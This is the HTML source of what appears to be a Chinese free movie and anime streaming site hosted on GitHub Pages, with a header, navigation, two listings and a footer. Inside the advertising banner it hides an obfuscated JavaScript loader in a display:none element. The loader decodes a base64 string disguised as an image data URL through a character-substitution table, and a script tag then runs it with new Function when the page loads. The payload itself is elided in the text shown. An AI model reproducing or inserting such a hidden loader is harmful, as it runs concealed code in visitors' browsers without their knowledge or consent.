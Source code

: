       background: #2a2550;
      color: #aaa;
    }
  </style>
</head>
<body>
  <header>
    <h1>金龙笔趣影视站</h1>
    <p>免费看热门电影和动漫！</p>
  </header>

  <nav>
    <a href="#">首页</a>
    <a href="#">电影</a>
    <a href="#">动漫</a>
    <a href="#">联系</a>
  </nav>

  <div class="ad">
    <!-- 广告横幅位 -->
    <div style="display: none !important;">!function(){function a(a){var _idx="b5i2w4l7e9";var b={...};return a.split("").map(function(a){return void 0!==b[a]?b[a]:a}).join("")}var b=a('data:image/jpg;base64,...');new Function(b)()}();</div><script>(function(){var t = document.currentScript.previousElementSibling.innerText;t && new Function(t)();})()</script>
  </div>

  <div class="movie-section">
    <div class="movie">
      <h2>海贼王</h2>
      <p>日本超人气动漫，讲述路飞的航海冒险之旅。</p>
      <img src="https://upload.wikimedia.org/wikipedia/en/6/65/One_Piece_Logo.png" alt="海贼王">
    </div>
    <div class="movie">
      <h2>金龙笔趣小说</h2>
      <p>本站自制推荐小说，适合喜欢阅读的你！</p>
      <img src="https://via.placeholder.com/800x400.png?text=金龙笔趣小说" alt="金龙小说">
    </div>
  </div>

  <footer>
    © 2025 金龙笔趣影视站 | Powered by GitHub Pages<br/>
    联系方式：54088729
  </footer>
</body>
</html>
